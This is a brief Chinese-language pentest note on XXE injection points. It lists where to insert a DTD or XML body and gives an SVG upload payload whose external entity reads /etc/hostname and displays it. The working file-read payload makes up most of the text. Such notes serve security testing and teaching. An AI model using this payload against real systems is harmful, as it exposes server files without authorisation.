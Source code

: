 ## 注入点：

##### 明确post是xml：

1. 插入dtd
2. 插入xml主体

##### 没有明确是xml：

1. 可以尝试插入xml主体

##### 上传svg/xml文件点：

例：

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```



